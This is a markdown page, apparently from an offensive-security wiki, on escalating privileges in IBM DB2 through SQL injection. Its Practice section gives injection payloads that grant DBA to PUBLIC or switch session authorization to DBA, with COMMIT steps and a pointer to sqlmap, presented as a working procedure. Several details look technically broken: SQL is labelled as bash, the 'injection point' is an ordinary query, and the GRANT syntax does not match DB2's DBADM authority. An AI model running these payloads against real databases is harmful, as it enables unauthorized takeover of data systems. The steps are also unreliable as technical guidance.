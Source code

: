 ```yaml
---
title: DB2 Privilege Escalation Techniques
description: Explore effective techniques for escalating privileges in IBM DB2 using
  SQL injection vulnerabilities.
keywords:
- DB2 privilege escalation
- SQL injection
- IBM DB2 security
- database vulnerability
- DBA privileges
- SQL payloads
- session authorization
---
```


# DB2 Privilege Escalation

## Context

This guide focuses on escalating privileges in IBM DB2 using SQL injection techniques. It assumes familiarity with database privilege models, SQL statements, and prior exposure to IBM DB2 SQL injection vulnerabilities.

## Theory

### Understanding DB2 Privilege Hierarchy

DB2 privileges control access to database objects and operations. These privileges can be granted at various levels, from system-wide permissions to specific database object access. Understanding this hierarchy is crucial for identifying potential vulnerabilities. A common security flaw arises when privileges are misconfigured, allowing unauthorized users to gain elevated access.

### Exploiting Privilege Escalation via SQL Injection

This technique involves identifying points in a database application susceptible to SQL injection, then crafting and injecting payloads that manipulate queries to escalate privileges. SQL injection vulnerabilities allow malicious actors to execute unauthorized SQL commands, which can include granting higher privileges to unauthorized users or groups.

### DB2 Security Mechanisms

DB2 relies on mechanisms like authentication, authorization, and auditing to maintain database security. The system assumes users have only the privileges necessary for their role. However, flaws in privilege management can be exploited, if not carefully managed and audited, potentially leading to unauthorized access and control over the database environment.

## Practice

### Privilege Escalation via GRANT DBA

Exploiting SQL injection vulnerabilities can allow attackers to grant DBA privileges to unauthorized users. The following steps demonstrate how to achieve this:

1. **Identify SQL Injection Point:**
    ```bash
    SELECT * FROM users WHERE username='admin' AND password='password' --';
    ```
    This query is crafted to check for known credentials. The `--` operator comments out the trailing text, often needed to negate unwanted query constructs.

2. **Inject Payload to Escalate Privileges:**
    ```sql
    '; GRANT DBA TO PUBLIC; --
    ```
    Injecting this payload alters the SQL flow to grant DBA permissions to all users, represented by `PUBLIC`.

3. **Commit the Privilege Change:**
    ```bash
    COMMIT;
    ```
    Executing a commit ensures that the changes made by the injected SQL take effect within the database.

Outcome: DBA privileges are successfully granted to the PUBLIC user group.

### Privilege Escalation via SET SESSION AUTHORIZATION

The following steps highlight how session authorization can be manipulated:

1. **Identify SQL Injection Point:**
    ```bash
    SELECT * FROM users WHERE username='admin' AND password='password' --';
    ```
    This serves to highlight the vulnerability where authenticated bypass attacks can begin.

2. **Inject Payload to Change Session Authorization:**
    ```sql
    '; SET SESSION AUTHORIZATION 'DBA'; --
    ```
    This payload switches the session's user context to that of a DBA, leveraging elevated privileges during the session.

3. **Commit the Session Change:**
    ```bash
    COMMIT;
    ```
    As with privilege grants, committing the change finalizes the unauthorized switch to DBA authorization.

Outcome: The session's authorization is elevated to DBA, enabling privileged operations within the session's lifetime.

## Tools

- **sqlmap**
- **DB2 Client**

By utilizing tools like `sqlmap` and `DB2 Client`, penetration testers can automate the detection and exploitation of SQL injection vulnerabilities, allowing for a more efficient privilege escalation process.